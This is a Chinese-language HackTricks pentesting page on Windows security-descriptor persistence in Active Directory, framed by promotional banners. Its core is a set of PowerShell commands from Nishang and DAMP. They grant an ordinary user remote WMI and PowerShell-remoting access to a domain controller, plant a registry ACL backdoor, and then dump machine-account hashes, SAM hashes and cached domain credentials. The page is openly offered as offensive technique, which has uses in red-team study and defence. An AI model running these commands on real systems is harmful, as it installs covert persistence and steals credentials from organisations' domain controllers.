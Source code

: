 # 安全描述符

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 YouTube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks仓库](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud仓库](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

## 安全描述符

安全描述符定义语言（SDDL）定义了用于描述安全描述符的格式。SDDL使用ACE字符串来表示DACL和SACL：`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;`

**安全描述符**用于**存储**对象对**另一个对象**的**权限**。如果你可以**对对象的安全描述符**进行**小的更改**，你可以在不需要成为特权组成员的情况下获得对该对象的非常有趣的权限。

因此，这种持久化技术基于能够获得针对特定对象所需的每个权限，以便能够执行通常需要管理员权限的任务，但无需成为管理员。

### 访问WMI

你可以使用[**这个方法**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)为用户提供**远程执行WMI**的访问权限：
```bash
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose #Remove
```
### 访问WinRM

为用户提供对**winrm PS控制台的访问权限**[**使用此链接**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)**：**
```bash
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove #Remove
```
### 远程访问哈希值

访问**注册表**并**转储哈希值**，使用[**DAMP**](https://github.com/HarmJ0y/DAMP)创建**Reg后门**，这样你可以随时检索计算机的哈希值、**SAM**和计算机中的任何**缓存的AD凭据**。因此，将此权限授予**普通用户对域控制器计算机**非常有用：
```bash
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
查看[**Silver Tickets**](silver-ticket.md)以了解如何使用域控制器的计算机帐户的哈希值。

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？想要在HackTricks中**宣传你的公司**吗？或者你想要**获取PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品——[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或者**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

